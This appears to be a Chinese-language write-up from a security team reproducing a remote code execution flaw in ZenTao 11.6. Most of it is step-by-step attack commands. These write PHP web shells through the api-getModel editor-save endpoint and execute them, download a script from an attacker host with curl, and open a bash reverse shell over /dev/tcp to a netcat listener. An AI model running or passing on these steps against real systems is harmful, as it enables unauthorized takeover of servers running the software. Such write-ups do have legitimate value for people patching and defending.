

# 禅道 11.6 版本 RCE漏洞

>**Created by：** 一条‘小龍龙
>
>**Team：** TracelessSec
>
>**漏洞描述：** 禅道 11.6 版本  RCE漏洞


# 0x01 漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。 

# 0x02 影响范围

禅道 11.6

# 0x03 漏洞复现

利用上面的文件读取来执行命令

```bash
http://192.168.59.128/zentao/api-getModel-editor-save-filePath=/tmp/1111

fileContent=<?php phpinfo()?>
```



```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/222/2#/
```


```
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('pwd');?>
```


```
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```


桌面下新建1.sh脚本文件

```bash
bash -i >& /dev/tcp/192.168.81.188/8888 0>&1
```


开启python3 http服务

```bash
python3 -m http.server 8080
```


```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```


访问网址，以下载1.sh脚本文件

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```


攻击机监听8888端口

```bash
nc -lnvp 8888
```

```bash
http://192.168.81.173/zentao/api-getModel-editor-save-filePath=/tmp/shell#/

fileContent=<?php system('curl http://192.168.81.188:8080/1.sh -o /tmp/1.sh');?>
```

访问一下网址，等待目标主机反弹shell

```bash
http://192.168.81.173/zentao/api-getModel-api-getMethod-filePath=/tmp/shell/2#/
```

反弹shell成功！


